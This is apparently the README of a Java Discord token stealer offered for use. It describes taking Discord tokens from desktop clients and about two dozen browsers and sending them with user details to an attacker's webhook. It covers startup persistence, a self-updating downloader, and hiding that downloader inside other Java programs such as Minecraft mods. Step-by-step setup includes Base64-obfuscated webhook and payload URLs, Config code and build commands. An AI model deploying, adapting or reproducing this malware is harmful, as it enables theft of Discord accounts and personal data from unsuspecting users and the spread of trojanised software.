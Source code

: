 Simple Discord token logging utility written in Java. Supports both [Clients](#supported-clients) and [Browsers](#supported-browsers).
## Features
- Capture tokens saved by Discord clients and browsers in LevelDB files
- Retrieve user information using said tokens and seamlessly send it to a designated webhook in an easily customizable embed format with placeholders
- Deployment through a lightweight downloader that operates independently of external dependencies
- Added to startup for persistence, ensuring continuous monitoring.
- Enhance and adapt the application's functionality as needed through auto-update capabilities
## Dependencies
- Java 8
- [Jackson](https://github.com/FasterXML/jackson)
- [JNA](https://github.com/java-native-access/jna)
- [OkHttp](https://github.com/square/okhttp)
- [mslinks](https://github.com/DmitriiShamrikov/mslinks)
## Usage
1. Host three empty files on GitHub similar to [/examples/](../blob/master/examples/). Any other service works too, as long as the URL of each hosted file remains the same after updating them.
2. Encode the URLs of your Discord webhook, the Updater JAR and the Version Info file in Base64.
    ```
   https://discord.com/api/webhooks/...    >>>   aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==
   https://github.com/.../Updater.jar      >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=
   https://github.com/.../Version%20Info   >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=
   ```
3. Update the **Config** class accordingly:
    ```java
    public static final String WEBHOOK_URL      = decode("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==");
    public static final String VERSION_INFO_URL = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=");
    public static final String UPDATER_JAR_URL  = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=");
    ```
4. *(Optional)* Adjust the download paths for the Updater, the Application and the version number respectively in the **Config** class:
    ```java
    public static final String UPDATER_SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    public static final String APP_SAVE_PATH     = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
    public static final int    VERSION_NUMBER    = 1;
    ```
5. Build the **Application**(`gradle applicationJar`) and the **Updater** (`gradle updaterJar`)
6. Update your hosted files with the newly built JARs and edit the Version Info similarly to [/examples/Version Info](../blob/master/examples/Version%20Info), making sure the value of "version" matches the VERSION_NUMBER specified earlier:
    ```json
    {
    "version":1,
    "link":"https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Application.jar"
    }
    ```
7. Implement the Downloader source in your preferred Java application (such as a Minecraft mod) and build it.
8. Run the standalone Downloader or the Java application with the integrated downloader, your Discord token and related user information will be automatically sent to your webhook.
## Auto-Update
- ### Application
  To distribute updates to all instances of your application, you must first locate and update the version number in the **Config** class to a higher value than the current one.This version number will help identify whether an update is available. You can then make the necessary changes to your main application and build it. Finally, host the new version and update the version information file to reflect these changes. This file serves as a reference for your application to determine whether an update is needed.

  *Be cautious when updating the version number. If the version number specified in the UpdateHelper class is smaller than the one in the version information file, the Application and Updater will enter a loop of downloading and deleting each other continuously. Make sure to keep the version numbers consistent to avoid this issue.*
- ### Updater
  To distribute new versions of the updater itself, simply build it with the necessary changes and replace the old file with it. The main application will download it the next time an update is needed.

  *If you cannot get the same URL for the updater as before, you will have to push a dummy update of the main application with a higher version number and the link to the new updater jar. In general, if you do not own a server, it would be good practice to host the files on GitHub and update them through that to retain the same URLs.*

### Supported Clients
- Discord
- Discord Canary
- Discord PTB

### Supported Browsers
- Brave Browser
- Epic Privacy Browser
- Falkon
- Firefox
- Firefox Beta
- Firefox Developer Edition
- Firefox Nightly
- Google Chrome
- Google Chrome Beta
- Google Chrome Canary
- Google Chrome Dev
- Iridium
- Librewolf
- Microsoft Edge
- Opera
- Opera Beta
- Opera Developer
- Opera GX
- Pale Moon
- (Ungoogled) Chromium
- Vivaldi
- Waterfox
- Yandex